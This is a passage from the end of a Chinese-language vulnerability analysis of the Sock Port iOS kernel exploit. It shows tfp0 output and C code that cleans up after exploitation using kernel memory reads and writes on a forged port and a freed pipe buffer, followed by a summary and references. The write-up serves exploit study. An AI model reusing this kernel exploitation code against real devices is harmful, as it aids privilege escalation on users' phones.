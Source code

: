 效果蛮好

```
[+] tfp0: 0x6203
[*] allocated: 0xfffffff008e1f000
[*] read back: 0x4141414141414141
```

## 10. 清理内存环境

从`is_table`中删除东拼西凑的Port，然后删除`fds`对应的内核缓冲区，它早就被释放了，还有一些管道句柄，IOSurface都关掉

```c
// 获取is_table
uint64_t task_addr = rk64(self_port_addr + koffset(KSTRUCT_OFFSET_IPC_PORT_IP_KOBJECT));
uint64_t itk_space = rk64(task_addr + koffset(KSTRUCT_OFFSET_TASK_ITK_SPACE));
uint64_t is_table = rk64(itk_space + koffset(KSTRUCT_OFFSET_IPC_SPACE_IS_TABLE));

// 获取索引
uint32_t port_index = our_port >> 8;
const int sizeof_ipc_entry_t = 0x18;

// 清空
wk32(is_table + (port_index * sizeof_ipc_entry_t) + 8, 0);
wk64(is_table + (port_index * sizeof_ipc_entry_t), 0);

// 这个pipe_buffer已经释放，这里指针也要清空
wk64(fg_data + koffset(KSTRUCT_OFFSET_PIPE_BUFFER), 0); // freed already via mach_msg()

if (fds[0] > 0)  close(fds[0]);
if (fds[1] > 0)  close(fds[1]);
if (port_fds[0] > 0)  close(port_fds[0]);
if (port_fds[1] > 0)  close(port_fds[1]);

free((void *)fakeport);
deinit_IOSurface();
return new_tfp0;
```

## 11. 总结

这篇文章只能说是讲了个大概，很多细节都没有深究，比如堆分配机制，哪些是统一实现的，哪些是单独实现的，结构体偏移计算，伪造Port时各种结构体成员以什么数据进行赋值...，这些问题我也一知半解的，所以就留着后面漏洞分析的多了，逐渐补齐

## References

1.  [Sock Port 漏洞解析（一）UAF 与 Heap Spraying](http://blog.asm.im/2019/11/17/Sock-Port-漏洞解析（一）UAF-与-Heap-Spraying/)
2.  [Sock Port 漏洞解析（二）通过 Mach OOL Message 泄露 Port Address](http://blog.asm.im/2019/11/24/Sock-Port-漏洞解析（二）通过-Mach-OOL-Message-泄露-Port-Address/)
3.  [Sock Port 漏洞解析（三）IOSurface Heap Spraying](http://blog.asm.im/2019/12/01/Sock-Port-漏洞解析（三）IOSurface-Heap-Spraying/)
4.  [Sock Port 漏洞解析（四）The tfp0 !](http://blog.asm.im/2019/12/08/Sock-Port-漏洞解析（四）The-tfp0/)
5.  [iOS12-2 越狱漏洞分析](https://cloud.tencent.com/developer/article/1475737)
6.  https://raw.githubusercontent.com/jakeajames/sock_port/master/sock_port.pdf
7.  https://www.slideshare.net/i0n1c/cansecwest-2017-portal-to-the-ios-core
